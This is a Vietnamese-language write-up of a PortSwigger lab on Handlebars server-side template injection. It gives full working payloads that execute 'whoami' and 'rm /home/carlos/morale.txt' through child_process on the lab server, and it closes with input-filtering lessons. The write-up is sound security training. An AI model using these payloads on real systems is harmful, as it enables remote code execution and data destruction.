 # Write-up: Server-side template injection in an unknown language with a documented exploit

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine Handlebars, nơi tham số `message` trong URL không được lọc, cho phép thực thi mã tùy ý. Bằng cách sử dụng payload Handlebars dựa trên tài liệu từ bài viết của Shoeb Patel, kẻ tấn công thực thi lệnh `whoami` để xác nhận SSTI và xóa file `/home/carlos/morale.txt` để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong Handlebars qua tham số `message`, thực thi lệnh `whoami` để xác nhận, và sử dụng payload để xóa file `/home/carlos/morale.txt`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Khai thác Handlebars**  
- Khi chọn xem sản phẩm đầu tiên, server trả về thông báo `Unfortunately this product is out of stock` với URL chứa tham số:  
    - **Phân tích**: Tham số `message` có thể được kiểm soát, nghi ngờ tồn tại lỗ hổng SSTI:  
    ![Thông báo sản phẩm](./images/1_stock.png)  

- Thử payload SSTI cơ bản:  
  ```
  GET /product?message=${7*7} HTTP/2
  Host: 0al9019t20uv1234p0qr189000st00qp.web-security-academy.net
  ```  
- Kết quả: Server báo lỗi, xác nhận Handlebars không hỗ trợ phép toán trực tiếp (`+`, `-`, `*`, `/`), nhưng tham số `message` được xử lý như một template Handlebars:  
  ![Lỗi SSTI Handlebars](./images/2_handlebar.png)  

- Tham khảo bài viết của Shoeb Patel ([The Secret Parameter, LFR and Potential RCE in NodeJS Apps](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)) để xây dựng payload khai thác SSTI trong Handlebars. 
    
- Sử dụng payload để thực thi lệnh `whoami`:  
  ```
  GET /product?message={{#with%20"s"%20as%20|string|}}{{#with%20"e"}}{{#with%20split%20as%20|conslist|}}{{this.pop}}{{this.push%20(lookup%20string.sub%20"constructor")}}{{this.pop}}{{#with%20string.split%20as%20|codelist|}}{{this.pop}}{{this.push%20"return%20require('child_process').exec('whoami').stdout.pipe(process.stdout);"}}{{this.pop}}{{#each%20conslist}}{{#with%20(string.sub.apply%200%20codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}} HTTP/2
  Host: 0al9019t20uv1234p0qr189000st00qp.web-security-academy.net
  ```  
- Kết quả: Server trả về `carlos`, xác nhận payload SSTI thành công, cho phép thực thi lệnh trong môi trường Node.js:  
    ![Kết quả whoami](./images/4_whoami.png)  

2. **Thực hiện xóa tệp morale.txt**  
- Sử dụng payload tương tự để thực thi lệnh `rm /home/carlos/morale.txt`:  
    ```
    GET /product?message={{#with%20"s"%20as%20|string|}}{{#with%20"e"}}{{#with%20split%20as%20|conslist|}}{{this.pop}}{{this.push%20(lookup%20string.sub%20"constructor")}}{{this.pop}}{{#with%20string.split%20as%20|codelist|}}{{this.pop}}{{this.push%20"return%20require('child_process').exec('rm%20/home/carlos/morale.txt');"}}{{this.pop}}{{#each%20conslist}}{{#with%20(string.sub.apply%200%20codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}} HTTP/2
    Host: 0al9019t20uv1234p0qr189000st00qp.web-security-academy.net
    ```  
    ![rm](./images/5_rm.png)
- Kết quả: File `/home/carlos/morale.txt` bị xóa, lab xác nhận hoàn thành:  
  ![Lab hoàn thành](./images/6_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng SSTI trong Handlebars để truy cập hàm `constructor` của `String` và thực thi lệnh hệ thống qua `child_process.exec`, xóa file `/home/carlos/morale.txt`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong Handlebars, sử dụng các kỹ thuật từ tài liệu để thực thi lệnh hệ thống như `whoami` và `rm`.  
- Nhận thức tầm quan trọng của việc lọc và mã hóa đầu vào người dùng trong template engine, hạn chế truy cập các hàm JavaScript nhạy cảm, và vô hiệu hóa thực thi lệnh trong môi trường Node.js.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong Handlebars, nhấn mạnh tầm quan trọng của việc lọc đầu vào và bảo vệ template engine để ngăn chặn thực thi mã tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*